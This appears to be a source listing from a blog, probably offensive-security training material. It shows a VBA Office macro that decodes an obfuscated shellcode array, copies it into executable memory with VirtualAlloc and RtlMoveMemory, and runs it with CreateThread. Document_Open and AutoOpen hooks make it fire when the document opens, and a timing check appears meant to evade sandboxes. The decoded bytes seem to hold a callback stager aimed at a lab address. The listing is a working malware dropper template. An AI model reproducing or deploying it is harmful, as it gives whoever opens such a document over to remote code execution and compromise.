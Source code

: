 	If time < 2 Then
		Exit Function
	End If

'shellcode generated with the helper
	buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 102, 141, 84, 50, 139, 231, 141, 84, 14, 141, 84, 22, 51, 1, 17, 185, 76, 40, 141, 116, 42, 51, 194, 174, 62, 99, 126, 4, 46, 34, 195, 209, 15, 3, 201, 75, 119, 241, 84, 141, 84, _
18, 89, 141, 68, 62, 3, 210, 141, 66, 122, 135, 194, 118, 78, 3, 210, 82, 141, 90, 34, 141, 74, 26, 3, 213, 135, 203, 118, 62, 75, 51, 1, 141, 54, 141, 3, 216, 51, 194, 195, 209, 15, 174, 3, 201, 58, 226, 119, 246, 5, _
127, 250, 61, 127, 38, 119, 226, 90, 141, 90, 38, 3, 213, 104, 141, 14, 77, 141, 90, 30, 3, 213, 141, 6, 141, 3, 210, 139, 70, 38, 38, 93, 93, 99, 91, 92, 83, 1, 226, 90, 97, 92, 141, 20, 235, 130, 1, 1, 1, 95, _
106, 112, 103, 118, 2, 106, 121, 107, 112, 107, 86, 106, 78, 121, 40, 9, 1, 215, 51, 221, 85, 85, 85, 85, 85, 234, 64, 2, 2, 2, 79, 113, 124, 107, 110, 110, 99, 49, 55, 48, 50, 34, 42, 89, 107, 112, 102, 113, 121, 117, _
34, 80, 86, 34, 56, 48, 51, 61, 34, 86, 116, 107, 102, 103, 112, 118, 49, 57, 48, 50, 61, 34, 116, 120, 60, 51, 51, 48, 50, 43, 34, 110, 107, 109, 103, 34, 73, 103, 101, 109, 113, 2, 106, 60, 88, 123, 169, 1, 215, 85, _
85, 108, 5, 85, 85, 106, 189, 3, 2, 2, 234, 49, 3, 2, 2, 49, 47, 116, 82, 78, 70, 87, 124, 115, 84, 99, 84, 53, 92, 53, 92, 111, 72, 85, 121, 86, 108, 105, 101, 56, 69, 67, 85, 76, 82, 59, 83, 111, 59, 74, _
89, 82, 78, 53, 55, 121, 112, 81, 70, 83, 109, 71, 102, 111, 58, 54, 78, 73, 86, 84, 67, 59, 121, 99, 53, 88, 58, 105, 97, 76, 67, 85, 119, 81, 81, 74, 83, 77, 115, 122, 92, 78, 105, 115, 91, 78, 103, 109, 85, 89, _
105, 100, 83, 104, 80, 113, 83, 75, 52, 55, 117, 116, 81, 57, 55, 53, 80, 59, 73, 123, 113, 109, 76, 67, 109, 78, 80, 123, 90, 53, 118, 99, 116, 104, 56, 104, 51, 101, 108, 118, 72, 74, 111, 72, 116, 105, 67, 79, 76, 70, _
55, 85, 71, 101, 99, 118, 110, 71, 69, 79, 111, 109, 105, 101, 115, 75, 111, 103, 47, 104, 112, 50, 56, 76, 2, 82, 106, 89, 139, 161, 200, 1, 215, 139, 200, 85, 106, 2, 52, 234, 134, 85, 85, 85, 89, 85, 88, 106, 237, 87, _
48, 61, 1, 215, 152, 108, 12, 97, 106, 130, 53, 2, 2, 139, 226, 108, 6, 82, 108, 33, 88, 106, 119, 72, 160, 136, 1, 215, 85, 85, 85, 85, 88, 106, 47, 8, 26, 125, 1, 215, 135, 194, 119, 22, 106, 138, 21, 2, 2, 106, _
70, 242, 55, 226, 1, 215, 81, 119, 207, 234, 76, 2, 2, 2, 108, 66, 106, 2, 18, 2, 2, 106, 2, 2, 66, 2, 85, 106, 90, 166, 85, 231, 1, 215, 149, 85, 85, 139, 233, 89, 106, 2, 34, 2, 2, 85, 88, 106, 20, 152, _
139, 228, 1, 215, 135, 194, 118, 209, 141, 9, 3, 197, 135, 194, 119, 231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 56, 56, 2, 189, 242, 183, 164, 88, 108, 2, 85, 1, 215)

'decryption routine
For i = 0 To UBound(buf)
	buf(i) = buf(i) - 2
Next i

	addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
	
	For counter = LBound(buf) To UBound(buf)
		data = buf(counter)
		res = RtlMoveMemory(addr + counter, data, 1)
	Next counter
	
	res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
	MyMacro
End Sub

Sub AutoOpen()
	MyMacro
End Sub
{% endhighlight %}
